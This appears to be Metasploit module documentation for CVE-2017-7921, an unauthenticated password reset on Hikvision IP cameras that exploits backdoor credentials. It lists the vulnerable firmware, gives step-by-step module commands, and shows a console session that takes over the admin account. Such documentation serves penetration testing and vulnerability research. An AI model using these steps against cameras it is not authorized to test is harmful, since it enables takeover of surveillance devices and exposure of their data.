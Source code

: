 ## Vulnerable Application

Many Hikvision IP cameras contain backdoor credentials that allow unauthenticated impersonation of any
configured user account. This allows an attacker to bypass all security on the camera and
gain full admin access, allowing them to thereby completely control the camera and modify
any setting or retrieve sensitive information.

This module allows the attacker to perform an unauthenticated password change on
any vulnerable Hikvision IP Camera using these backdoor credentials. This can then be
used to gain full administrative access to the affected device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled
camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

This module has been tested against a Hikvision camera with the specifications listed below:

* MANUFACTURER: Hikvision.China
* MODEL: DS-2CD2142FWD-IS
* FIRMWARE VERSION: V5.4.1
* FIRMWARE RELEASE: build 160525
* BOOT VERSION: V1.3.4
* BOOT RELEASE: 100316

## Verification Steps

1. `use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set USERNAME <name of user>`
1. `set PASSWORD <new password>`
1. `check`
1. `set ID <id of user whose password you want to reset from "check" output>`
1. `run`
1. You should get a message that the password for the user has been successfully changed.

## Options
### STORE_CRED
This option allows you to store the user and password credentials in the Metasploit database for further use.

## Scenarios

### Hikvision DS-2CD2142FWD-IS Firmware Version V5.4.1 build 160525

```
msf6 > use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set RHOSTS 192.168.100.180
RHOSTS => 192.168.100.180
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set PASSWORD Pa$$W0rd
PASSWORD => Pa$$W0rd
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set ID 1
ID => 1
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set STORE_CRED true
STORE_CRED => true
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > options

Module options (auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ID          1                yes       ID (default 1 for admin)
   PASSWORD    Pa$$W0rd         yes       New Password (at least 2 UPPERCASE, 2 lowercase and 2 special characters
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.100.180  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
                                          t
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED  true             no        Store credential into the database.
   USERNAME    admin            yes       Username for password change
   VHOST                        no        HTTP server virtual host

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > check

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[+] 192.168.100.180:80 - The target is vulnerable.
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[*] Starting the password reset for admin...
[+] Password reset for admin was successfully completed!
[*] Please log in with your new password: Pa$$W0rd
[*] Credentials for admin were added to the database...
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) 
```
